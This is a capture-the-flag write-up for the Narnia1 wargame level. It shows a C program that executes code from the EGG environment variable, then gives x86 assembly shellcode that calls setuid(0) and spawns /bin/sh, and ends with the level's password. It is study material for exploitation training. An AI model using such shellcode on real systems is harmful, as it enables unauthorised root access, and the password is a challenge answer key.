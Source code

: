 # Narnia1

```C
#include <stdio.h>

int main(){
  int (*ret)();

  if(getenv("EGG")==NULL){    
  	printf("Give me something to execute at the env-variable EGG\n");
  	exit(1);
  }

  printf("Trying to execute EGG!\n");
  ret = getenv("EGG");
  ret();

  return 0;
}
```
The C code here seems to use the  function `getenv()` to get the function pointer at the environmental variable `EGG`. (Also as a challenge what happens if we do not set EGG?)

So lets make an environmental variable. To do that do:

```
$ export EGG="dogs_are_cool"
$ echo $EGG
dogs_are_cool
```

Now we need to set as a function. However you can't make and compile a C program because to much overhead and can be complicated in referring the address of the C function. We need `SHELLCODE`. Shellcode is x86 assembly code that when compiled and given as input will spawn a shell for our use.

So lets create a simple shellcode program `shellcode.s`. Need `.s` extension so `nasm` compiles it as a lightweight machine code instead of an executable.

So the basic shellcode is:
```assembly
global _start
section .text
_start:
    ;execve("/bin/sh",0,0)
    xor ecx,ecx
    push ecx
    push 0x68732f6e
    push 0x69622f2f
    lea eax,[ecx+0x0B]
    mov ebx,esp
    int 0x80
```

```assembly
global _start
section .text
_start:
    ;setuid(0)
    xor ebx,ebx
    lea eax,[ebx+0x17]
    cdq
    int 0x80
    ;execve("/bin/sh",0,0)
    xor ecx,ecx
    push ecx
    push 0x68732f6e
    push 0x69622f2f
    lea eax,[ecx+0x0B]
    mov ebx,esp
    int 0x80
```

Password: `nairiepecu`
